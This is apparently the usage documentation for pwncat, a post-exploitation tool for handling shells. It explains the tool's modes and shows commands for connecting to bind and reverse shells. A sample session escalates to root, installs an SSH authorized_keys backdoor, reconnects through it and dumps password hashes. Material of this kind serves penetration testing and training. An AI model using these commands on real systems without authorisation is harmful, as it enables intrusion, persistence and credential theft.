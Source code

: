 Basic Usage
===========

``pwncat`` has two main modes which it operates in: Command Mode and Raw Mode. In command mode,
you are given a prompt with the ``(local)`` prefix. This prompt provides access to ``pwncat`` commands
for everything from file upload/download to automated privilege escalation. In command mode, you
control the remote host over the same communications channel, and therefore cancelling local commands
with "C-c" may leave your raw prompt in a precarious state.

The local prompt is governed by a command parser based on Python's ``prompt_toolkit`` module. It
will syntax highlight and tab-complete commands and arguments, and provides extensive help which
is auto-generated from the docstrings within the code itself.

In raw mode, ``pwncat`` disables echoing on your local terminal and places it in raw mode. Each
individual keystroke is forwarded to the remote terminal. This allows you to interact with the remote
terminal as if you were logged in locally or over SSH. Things like keyboard shortcuts, escape sequences
and graphical terminal applications will behave normally.

Transitioning between these two modes is accomplished internally by changing the ``pwncat.victim.state``
property. This property is a Python ``Enum`` object. From a user perspective, this state can be toggled
between Raw and Command mode with the "C-d" key sequence. The reason for selecting "C-d" is two-fold.
Firstly, "C-d" is a common way to exit a shell. Intercepting this control sequence prevents you from
habitually pressing this key combination and accidentally exiting your remote shell. Further, because
of it's common function, it feels natural to use this combination to switch between (or temporarily exit)
the different states.

You might be wondering "great, but how do I send a 'C-d' to the remote process!?" Well, ``pwncat``
allows this through the use of the defined prefix key. Similar to terminal applications like ``tmux``,
``pwncat`` has the concept of a "prefix" key. This key is pressed prior to entering a defined keyboard
shortcut to tell the input processor to interpret the next keystroke differently. In ``pwncat``, the
default prefix is "C-k". This means that to send the "C-d" sequence to the remote terminal, you can
press "C-k C-d" and to send "C-k" to the remote terminal, you can press "C-k C-k". Keyboard shortcuts
can be connected with any arbitrary script or local command and can be defined in the configuration file
or with the ``bind`` command.

Connecting to a remote host
---------------------------

To connect to a remote host, the ``connect`` command is used. This command is capable of connecting
to a remote host over a raw socket, SSH or view a previously installed persistence mechanism. It
is also able to listen for reverse connections and initiate a session upon connection.

When running ``pwncat``, all program arguments with the exception of the ``--config/-c`` and the
``--help`` arguments are interpreted as local commands which will be executed after the configuration
file is loaded.

Connecting can happen in your configuration file, from the command identified at command execution
or after startup. If no connection is made from the configuration file or from your command line
arguments, you will be placed in a local ``pwncat`` command prompt. This is a restricted prompt
only allowing local commands to be run. From here, you can start a listener or connect to a remote
host with the ``connect`` command.

Here's an example of connecting to a remote bind shell on the host "test-host" on port 4444 immediately
on invocation of ``pwncat``:

.. code-block:: bash

    pwncat connect --connect -H test-host -p 4444

Similarly, listening for a reverse shell connection can be similarly accomplished:

.. code-block:: bash

    pwncat connect --listen -H 0.0.0.0 -p 4444

As mentioned above, if no connections are made during initialization, you will be taken to a local
``pwncat`` prompt where you can then execute the ``connect`` command manually:

.. code-block:: bash

    $ pwncat
    [?] no connection established, entering command mode

    [+] local terminal restored
    (local) pwncat$ connect -c -H test-host -p 4444
    [+] connection to A.B.C.D:4444 established
    [+] setting terminal prompt
    [+] running in /bin/bash
    [+] terminal state synchronized
    [+] pwncat is ready 🐈

    (remote) debian@debian-s-1vcpu-1gb-nyc1-01:/home/debian$

The last method of connecting is via your configuration file. You can place the ``connect`` command
there in order to not require any arguments. More powerfully, you can place your **reconnect**
command in your configuration file, which will fail the first time you connect to the remote host.
After installing persistence, reconnection will utilize your persistence to gain a shell and you
will no longer need command line parameters.

.. code-block:: bash

    # your pwncat configuration script
    set db "sqlite:///pwncat.sqlite"
    connect --reconnect -H test-host

.. code-block:: bash

    # Connect to test-host via reverse shell the first time
    $ pwncat -c pwncatrc connect -l -H 0.0.0. -p 4444
    [!] d87b9646813d250ac433decdee70112a: connection failed: no working persistence methods found
    [+] connection to A.B.C.D:4444 established
    [+] setting terminal prompt
    [+] running in /bin/bash
    [+] terminal state synchronized
    [+] pwncat is ready 🐈

    (remote) debian@debian-s-1vcpu-1gb-nyc1-01:/root$
    [+] local terminal restored
    (local) pwncat$ privesc -e
    [+] privilege escalation succeeded using:
     ⮡ shell as root via /bin/bash (sudo NOPASSWD)
    [+] pwncat is ready 🐈

    (remote) root@debian-s-1vcpu-1gb-nyc1-01:~#
    [+] local terminal restored
    (local) pwncat$ persist -i -m authorized_keys -u root
    (local) pwncat$ persist --status
     - authorized_keys as root (local) installed
    (local) pwncat$
    [+] pwncat is ready 🐈

    (remote) root@debian-s-1vcpu-1gb-nyc1-01:~#

    exit
    (remote) debian@debian-s-1vcpu-1gb-nyc1-01:/root$
    (remote) debian@debian-s-1vcpu-1gb-nyc1-01:/root$

    exit

    [+] local terminal restored

    $ pwncat -c data/pwncatrc
    [+] setting terminal prompt
    [+] running in /bin/bash
    [+] terminal state synchronized
    [+] pwncat is ready 🐈
    (remote) root@debian-s-1vcpu-1gb-nyc1-01:~#
    (remote) root@debian-s-1vcpu-1gb-nyc1-01:~#
    [+] local terminal restored
    (local) pwncat$ hashdump
    root:$6$jmqmNYe9$8GJjU.tV5XWfyFMclJXd0f7TOCEuHbvU9ajD8ZeaVd7y7GGXcb7BfNVV6rR/S6AcmI0W.yzHiXId0EZsYgnQx1
    debian:$6$c5h8DDIk$2bxaEK8C.wCkTwY.z/Z4c48RwdLRL5AE5J6qvPPHCz2vPb2dEeIbwtxkTHHbvTcnh1S/J0e2gPxUiRgT9SiXN/
    (local) pwncat$

The first time ``pwncat`` was run, the reconnection command failed. This was expected, since we
had not connected to the remote host yet. After we escalated privileges, and installed persistence,
we were able to re-run ``pwncat`` with no arguments and get a shell. In this case, ``pwncat``
utilized our installed ssh authorized keys backdoor to gain a session as the root user.